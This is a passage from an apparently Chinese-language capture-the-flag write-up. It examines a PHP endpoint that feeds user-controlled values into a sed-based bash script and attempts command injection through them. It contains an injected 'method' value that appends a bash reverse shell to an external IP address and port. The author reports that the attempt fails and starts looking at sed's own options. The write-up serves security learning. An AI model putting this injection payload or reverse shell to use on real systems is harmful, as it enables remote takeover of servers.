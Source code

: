 ```plain
?>
```

> 接受`POST`请求的`method`、`Key`、`filename`参数，将`METHOD`和`key`放入了环境变量中，对`Key`进行了一定的检查，不允许换行符和不允许超过 114 个字符，随后就通过命令执行函数执行了`generate.sh`

`generate.sh`:

```plain
set -e

NEW_FILENAME=$(tr -dc a-z0-9 </dev/urandom | head -c 16)
cp template.php "/tmp/$NEW_FILENAME"
cd /tmp

sed -i "s/KEY/$KEY/g" "$NEW_FILENAME"
sed -i "s/METHOD/$METHOD/g" "$NEW_FILENAME"

realpath "$NEW_FILENAME"
```

> 看到这里思路就清晰了，整个 bash 脚本随机了一个文件名，将`/var/www/html/template.php`复制到了`/tmp`并重命名，关键是`sed`的处理，直接文件中的`key`和`` `method替换为环境变量中的 ``key`和`method`，而`key`和`method`是我们可控制的，所以有没有情况能够通过`sh`执行脚本触发`rce\`

开始我的想法是通过注释的形式来进行`rce`，因为`key`有长度限制，明智的就是用`method`来触发。

```plain
aaaaa/g" "$NEW_FILENAME";bash -i >& /dev/tcp/120.79.29.170/4444 0>&1 # 

#替换后变成
sed -i "s/METHOD/aaaaa/g" "$NEW_FILENAME";bash -i >& /dev/tcp/120.79.29.170/4444 0>&1 # /g" "$NEW_FILENAME"

比较可惜的是，这样子并不行，报错了，sed: -e expression #1, char 17: unknown option to `s'
```

似乎并不行，改了挺久也没能成功，找下其它思路，比如`sed`本身的东西，发现`sed -e` 有参数可以直接执行脚本。
